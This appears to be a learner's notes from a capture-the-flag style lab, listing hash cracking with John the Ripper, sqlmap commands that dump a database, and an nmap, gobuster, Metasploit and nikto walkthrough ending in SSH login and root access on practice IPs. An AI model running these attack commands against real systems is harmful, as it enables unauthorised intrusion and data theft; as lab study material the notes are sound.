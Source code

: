 result: 
`Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
hello            (?)
1g 0:00:00:00 DONE (2020-09-23 13:32) 25.00g/s 9600p/s 9600c/s 9600C/s 123456..michael1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. `

- 2nd hash cracker using `sudo /opt/JohnTheRipper/run/john --wordlist=/opt/rockyou.txt --format=raw-sha1 sha1.txt`

result: 
`Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (?)
1g 0:00:00:00 DONE (2020-09-23 13:34) 7.142g/s 57.14p/s 57.14c/s 57.14C/s 123456..rockyou
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. `


7. SQLmap
	- `sqlmap -u http://10.10.166.60 --forms`
	- `sqlmap -u http://10.10.166.60 --forms -a`
		db name: tests	
	- `sqlmap -u http://10.10.166.60 --forms -D tests --dump-all`

8. smbmap

# ----- Final Exam -----

found at p.80 unconfiguref Apache2 on Ubuntu server: Apache httpd 2.4.18

1. `nmap -sC -sV -vv -A -p- -oN initial/nmapFinal 10.10.24.73`
	found 2 open ports: 22, 80
	OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	Apache httpd 2.4.18

2. `gobuster dir -u http://10.10.24.73 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt` 
	found dir `/secret`
`gobuster dir -u http://10.10.24.73/secret -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,html -t40`
	found file with possible login and hash pass: nyan:046385855FC9580393853D8E81F240B66FE9A7B8
	cracked hash :)`sudo /opt/JohnTheRipper/run/john --wordlist=/opt/rockyou.txt --format=raw-sha1 hashFinal.txt `

3. metaspoit	
	initial scan `db_nmap -sC -sV -A --script vuln 10.10.24.73`


4. `nikto -host 10.10.24.73 | tee initial/niktoFinal.log`
	initial scan

------------
ssh: nyan:nyan to get 1st flag, sudo su - to get 2nd
------------

